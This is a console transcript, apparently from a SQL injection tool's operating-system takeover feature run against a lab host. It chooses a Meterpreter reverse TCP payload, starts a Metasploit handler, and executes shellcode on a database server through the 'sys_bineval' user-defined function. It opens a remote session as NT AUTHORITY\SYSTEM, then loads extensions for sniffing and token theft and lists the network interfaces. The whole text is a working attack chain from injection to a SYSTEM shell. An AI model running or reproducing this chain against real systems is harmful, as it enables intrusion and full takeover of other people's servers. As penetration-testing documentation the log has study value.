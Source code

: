 ```
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
&gt; 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, please wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD =&gt; windows/meterpreter/reverse_tcp
EXITFUNC =&gt; thread
LPORT =&gt; 60641
LHOST =&gt; 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
hh:mm:52 +0100 2011

meterpreter &gt; Loading extension espia...success.
meterpreter &gt; Loading extension incognito...success.
meterpreter &gt; [-] The 'priv' extension has already been loaded.
meterpreter &gt; Loading extension sniffer...success.
meterpreter &gt; System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
meterpreter &gt; ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter &gt; exit

```